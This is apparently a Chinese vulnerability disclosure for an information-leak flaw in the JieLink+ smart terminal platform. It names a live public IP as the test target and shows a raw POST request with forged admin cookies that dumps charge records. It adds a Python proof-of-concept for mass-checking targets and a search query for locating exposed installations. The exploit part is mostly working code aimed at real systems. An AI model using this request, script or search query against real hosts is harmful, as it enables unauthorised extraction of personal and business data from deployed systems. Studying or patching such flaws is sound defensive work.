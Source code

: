 # JieLink+智能终端操作平台多个接口处存在敏感信息泄露漏洞

JieLink+智能终端操作平台多个接口处存在敏感信息泄露漏洞，恶意攻击者可能会利用此漏洞修改数据库中的数据，例如添加、删除或修改记录，导致数据损坏或丢失。

## 一、测试地址

```
http://183.237.86.230:8090/
```

## 二、验证

![image-20240902193945726](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240902193945726.png)

## 三、存在漏洞

```
POST /report/ParkChargeRecord/GetDataList HTTP/1.1
Host: 183.237.86.230:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, \*/\*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: Bearer test
Cookie: JSESSIONID=test;UUID=1; userid=admin
X-Requested-With: XMLHttpRequest
Content-Length: 17
Origin: http://x.xx.xx.x:xxx
Connection: close
Referer: http://x.xx.xx.x:xxx/Report/ParkOutRecord/Index
Sec-GPC: 1
Priority: u=1

page=1&rows=20000
```

![image-20240902194135955](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240902194135955.png)

## 四、POC

```
def poc(target):
    payload = "/report/ParkChargeRecord/GetDataList"
    headers = {
    "User-Agent":"Mozilla/5.0(WindowsNT10.0;Win64;x64;rv:126.0)Gecko/20100101Firefox/126.0",
    "Accept":"application/json,text/javascript,\*/\*;q=0.01",
    "Accept-Language":"zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding":"gzip,deflate,br",
    "Content-Type":"application/x-www-form-urlencoded;charset=UTF-8",
    "Authorization":"Bearertest",
    "Cookie":"JSESSIONID=test;UUID=1;userid=admin",
    "X-Requested-With":"XMLHttpRequest",
    "Content-Length":"21",
    "Connection":"close",
    "Sec-GPC":"1",
    "Priority":"u=1"
    }
    data = "page=1&rows=20000"
    res1 = requests.get(url=target, verify=False, timeout=5)
    try:
        if res1.status_code == 200:
            res2 = requests.post(url=target + payload, verify=False, headers=headers,data=data, timeout=5)
            # print(res2.text)
            res3 = json.loads(res2.text)
            content = res3['total']
            if content != 0:
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"该网站[+]{target}存在漏洞\n")


            else:

                print(f"该网站[+]{target}不存在漏洞")
        else:
            print(f"该网站{target}有问题，请手动测试")
    except Exception as e:
        print(e)
```



## 五、资产搜索

```
title="JieLink+智能终端操作平台"
```



